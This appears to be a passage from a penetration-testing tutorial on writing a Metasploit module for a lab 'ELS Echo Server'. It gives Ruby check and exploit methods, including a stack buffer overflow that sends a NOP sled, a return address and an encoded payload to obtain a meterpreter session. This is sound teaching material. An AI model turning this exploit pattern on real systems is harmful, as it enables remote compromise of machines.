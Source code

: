 ```ruby
end
```

Now that our module has enough information, let us show how to implement the `check` framework command. It is used to verify if the target is exploitable and it is not a mandatory command (it is not so used by penetration testers).
But what is the logic behind the `check` command? To identify if "ELS Echo Server" is vulnerable, we can simply test its *banner*. The first message the server sends to the client is its banner "ELS Echo Server 1.1.".

```ruby
def check
	connect
	banner = sock.gets()
	disconnect

	if (banner =~ /ELS Echo Server 1.1/)
		return Exploit::CheckCode::Vulnerable
	end
	return Exploit::CheckCode::Safe
end
```

`exploit` is the last method implemented in our module. As you can imagine, it wraps the real *exploitation logic code*. Note that it uses the parameters and options specified through the framework.

The `exploit` command corresponds to the exploit method in our module class.
What is the logic behind it? It is really simple. We have seen in the previous chapters how to exploit the "ELS Echo Server" through Ruby. Now we have to do the same thing using methods, options and parameters provided by the Metasploit framework.

`target` and `payload` are two attributes provided by the `Msf::Exploit::Remote` class.
With the `target` attribute, you can get the selected target fields. In our example, the target is Windows XP SP3 and with `target.ret`, we have the return address specified in the initialize method.
The `pack('V')` method is used to convert the return address (`target.ret`) into a binary sequence (32-bit little endian).
Similar to target, `payload.encoded` stores the encoded payload. It takes into account the parameter set in the module configuration.

```ruby
def exploit
	connect
	print_status("Connected to #{datastore['RHOST']}:#{datastore['RPORT']}")

	handler

	print_status("Trying target #{target.name}")
	buff = "\x90"*44 + [target.ret].pack('V') + "\x90"*10 + payload.encoded
	sock.put(buff)
	disconnect
end
```

Now if the exploitation succeeds, we will obtain a meterpreter session. Remember that thanks to the handler, the stream is automatically opened.
